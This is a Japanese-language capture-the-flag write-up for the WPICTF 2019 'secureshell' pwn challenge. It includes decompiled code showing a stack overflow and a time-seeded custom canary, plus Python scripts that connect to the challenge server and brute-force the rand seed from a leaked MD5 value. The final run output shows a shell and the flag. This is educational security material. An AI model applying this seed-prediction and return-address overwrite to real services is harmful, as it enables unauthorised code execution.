

# WPICTF 2019 `secureshell [Pwn 200]` writeup

## 問題

バイナリが公開されている。
今の僕の実力ではこのぐらいのレベルの問題が一番楽しんで解ける。




## 解答

### 調査

CanaryがなくてPIEもない。
こういうのは助かる。

```bash-statement
$ file secureshell
secureshell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=7c4384d24ee447e3057fd6573271ab9410484a4f, not stripped
$ sarucheck secureshell
o: Partial RELRO
o: No Canary found
x: NX enabled
o: No PIE
x: No RPATH
x: No RUNPATH
$
```

stringsでチェックすると`/bin/bash`や`execve`がある。
MD5やsrandも気になる。

```
$ strings secureshell
/lib64/ld-linux-x86-64.so.2
libcrypto.so.1.1
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
MD5_Final
MD5_Update
MD5_Init
libssl.so.1.1
libc.so.6
exit
sprintf
srand
fopen
puts
stdin
fgets
fclose
getenv
execve
gettimeofday
strchr
fprintf
strcmp
__libc_start_main
OPENSSL_1_1_0
GLIBC_2.2.5

～省略～

t$xH
t$xH
[]A\A]A^A_
/bin/bash
(Again)
%lx%lx
Incident UUID: %s
/dev/null
LARRY THE CANARY IS DEAD
Enter the password
SECUREPASSWORD
attempt #%i
You.dumbass is not in the sudoers file.  This incident will be reported.
Incident %s: That dumbass forgot his password %s
Welcome to the Super dooper securer shell! Now with dynamic stack canaries and incident reporting!
Too many wrong attempts, try again later
;*3$"
GCC: (GNU) 8.2.1 20180831
GCC: (GNU) 8.2.1 20181127
init.c

～省略～

.got
.got.plt
.data
.bss
.comment
$
```

ghidraをかけてみる。
ghidraそのままで解析。

1. 自作のcanaryがある。
2. /bin/sh起動する関数もある！
3. checkpwにバッファオーバフローがある。
4. 自作canaryに乱数を使っている
5. seedが固定なら楽かなと思ったのだけどseedには時刻を使っている。

```
ulong checkpw(void)

{
  int iVar1;
  int iVar2;
  ulong uVar3;
  char *__s2;
  char local_80 [104];
  char *local_18;
  ulong local_10;
  
  iVar1 = rand();
  iVar2 = rand();
  uVar3 = (long)iVar2 ^ (long)iVar1 << 0x20;
  local_10 = uVar3;
  puts("Enter the password");
  fgets(local_80,0x100,stdin);
  local_18 = strchr(local_80,10);
  if (local_18 != (char *)0x0) {
    *local_18 = 0;
  }
  __s2 = getenv("SECUREPASSWORD");
  iVar1 = strcmp(local_80,__s2);
  if (iVar1 != 0) {
    stakcheck(uVar3,local_10);
  }
  else {
    stakcheck(uVar3,local_10);
  }
  return (ulong)(iVar1 == 0);
}

int init(EVP_PKEY_CTX *ctx)

{
  int extraout_EAX;
  int local_18 [2];
  int local_10;
  
  gettimeofday((timeval *)local_18,(__timezone_ptr_t)0x0);
  srand(local_18[0] * 1000000 + local_10);
  return extraout_EAX;
}

void logit(void)

{
  FILE *__stream;
  char *pcVar1;
  int local_ac;
  char local_a8 [48];
  undefined8 local_78;
  undefined8 local_70;
  MD5_CTX local_68;
  
  local_ac = rand();
  MD5_Init(&local_68);
  MD5_Update(&local_68,&local_ac,4);
  MD5_Final((uchar *)&local_78,&local_68);
  sprintf(local_a8,"%lx%lx",local_78,local_70);
  puts("You.dumbass is not in the sudoers file.  This incident will be reported.");
  printf("Incident UUID: %s\n",local_a8);
  __stream = fopen("/dev/null","w");
  if (__stream != (FILE *)0x0) {
    if (times == 0) {
      pcVar1 = "";
    }
    else {
      pcVar1 = "(Again)";
    }
    fprintf(__stream,"Incident %s: That dumbass forgot his password %s\n",local_a8,pcVar1);
    fclose(__stream);
    times = times + 1;
  }
  return;
}

void main(EVP_PKEY_CTX *pEParm1)

{
  int iVar1;
  int iVar2;
  
  init(pEParm1);
  puts(
      "Welcome to the Super dooper securer shell! Now with dynamic stack canaries and incidentreporting!"
      );
  iVar2 = 0;
  do {
    if (2 < iVar2) {
LAB_00401487:
      puts("\nToo many wrong attempts, try again later");
      return;
    }
    if (iVar2 != 0) {
      printf("\nattempt #%i\n",(ulong)(iVar2 + 1));
    }
    iVar1 = checkpw();
    if (iVar1 != 0) {
      shell();
      goto LAB_00401487;
    }
    logit();
    iVar2 = iVar2 + 1;
  } while( true );
}

void shell(void)

{
  execve("/bin/bash",(char **)0x0,(char **)0x0);
                    /* WARNING: Subroutine does not return */
  exit(0);
}

void stakcheck(long lParm1,long lParm2)

{
  if (lParm1 == lParm2) {
    return;
  }
  puts("LARRY THE CANARY IS DEAD");
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```


実行してみる。
md5から乱数のパターン(というかシードをあてて)canaryを作り直してreturnアドレスを関数に書き換えるやつと推測。

```
$ nc secureshell.wpictf.xyz 31339
Welcome to the Super dooper securer shell! Now with dynamic stack canaries and incident reporting!
Enter the password
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
You.dumbass is not in the sudoers file.  This incident will be reported.
Incident UUID: 8777a16ad9aff205469fe46010a4bb88

attempt #2
Enter the password
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
You.dumbass is not in the sudoers file.  This incident will be reported.
Incident UUID: 1355a943d3ab516e954e7ccfe623f1fa

attempt #3
Enter the password
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
You.dumbass is not in the sudoers file.  This incident will be reported.
Incident UUID: 3c51db270d34e9eb14a67ca98fde1cb

Too many wrong attempts, try again later
aaaaaaaaaaaaaaaaaaaaaaaa
$
```

### 攻略の順序

1. md5値を再現できるかどうか確認
2. サーバのmd5値を読み取ってseedを逆算
3. 自作canaryを再現して書き込めることを確認
4. `getpw`関数の戻り番地を`shell`関数に書き換える

### md5値を再現できるかどうかの確認

libcを読み込んで直接`gettimeofday`や`srand`や`rand`を呼んでmd5はpythonのhashlibを使ってsolve01.pyを作成。
`t`の値はgdbで直接持ってきた。
secureshellのUUIDの値がmd5の値そのままじゃなくて少し戸惑ったけど一応一致することは確認。

```python:solve01.py
import ctypes
import hashlib
import struct

libc = ctypes.cdll.LoadLibrary("libc.so.6")
t = 0x75ad0c3b
libc.srand(t)

r = libc.rand()
print("%x" % (r))
md5 = hashlib.md5(struct.pack(">I", r))
print(md5.hexdigest())

r = libc.rand()
print("%x" % (r))
md5 = hashlib.md5(struct.pack(">I", r))
print(md5.hexdigest())

r = libc.rand()
print("%x" % (r))
md5 = hashlib.md5(struct.pack(">I", r))
print(md5.hexdigest())

r = libc.rand()
print("%x" % (r))
md5 = hashlib.md5(struct.pack(">I", r))
print(md5.hexdigest())
```

### サーバのmd5値を読み取ってseedを逆算

1. 一度誤ったパスワードを入力
2. UUIDを吐くのでそれを読み込む
3. `srand`に食わせるシードをbruteforceで解析してUUIDを再現できた`t`を算出

みたな動作をするsolve02.pyを作成して実行。
見事seedを抜けた。


```python
import ctypes
import hashlib
import struct
import socket
import sys

class timeval(ctypes.Structure):
    _fields_ = \
    [
      ("tv_sec", ctypes.c_long),
      ("tv_usec", ctypes.c_long)
    ]

def bruteforce(md5msg):
    print("bruteforce")
    tv = timeval()

    libc = ctypes.cdll.LoadLibrary("libc.so.6")
    libc.gettimeofday(ctypes.byref(tv), None)
    start_t = (tv.tv_sec - 2) * 1000000
    end_t = start_t + 2 * 1000000

    for i in range(end_t - start_t):
        t = start_t + i

        libc.srand(t)
        r = libc.rand()
        r = libc.rand()
        r = libc.rand()
        md5 = hashlib.md5()
        md5.update(struct.pack("<I", r))
        s = md5uuid(md5.hexdigest())
        if s == md5msg:
            print("t = " + str(t))
            exit(1)

def md5uuid(str):
    return str[14] + str[15] + str[12] + str[13] + str[10] + str[11] + str[8] + str[9] + str[6] + str[7] + str[4] + str[5] + str[2] + str[3] + str[0] + str[1] + str[16 + 14] + str[16 + 15] + str[16 + 12] + str[16 + 13] + str[16 + 10] + str[16 + 11] + str[16 + 8] + str[16 + 9] + str[16 + 6] + str[16 + 7] + str[16 + 4] + str[16 + 5] + str[16 + 2] + str[16 + 3] + str[16 + 0] + str[16 + 1]

def read_until(sock, s):
    line = b""
    while line.find(s) < 0:
        line += sock.recv(1)
    return line

host = "secureshell.wpictf.xyz"
port = 31339

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.setsockopt(socket.IPPROTO_TCP, socket.TCP_NODELAY, 1)
print(host)
print(port)
sock.connect((host, port))

ret = read_until(sock, b"Enter the password")
sock.sendall(b"aaaa\n")

ret = read_until(sock, b"attempt #2")
print(ret)
md5msg = ret[89:89+32].decode("utf-8")

bruteforce(md5msg)
print("not solved")
```

```bash-statement
$ python solve02.py
secureshell.wpictf.xyz
31339
b'\nYou.dumbass is not in the sudoers file.  This incident will be reported.\nIncident UUID: ca0365a2bd6f7c3d837cf89c226a466c\n\nattempt #2'
bruteforce
t = 1555344810461383
$
```


### 自作canaryを再現して書き込めることを確認 & `getpw`関数の戻り番地を`shell`関数に書き換える

ここまで来たら後は単純作業でsolve03.pyを作成。
以下その実行結果。

```bash-statement
$ python solve03.py
secureshell.wpictf.xyz
31339
b'\nYou.dumbass is not in the sudoers file.  This incident will be reported.\nIncident UUID: 81598b0225be6c1c2fc97345285b983a\n\nattempt #2'
bruteforce
t = 1555345504705236

ls
flag.txt
run_problem.sh
secureshell
cat flag.txt
WPI{Loggin_Muh_Noggin}
exit
*** Connection closed by remote host ***
$
```
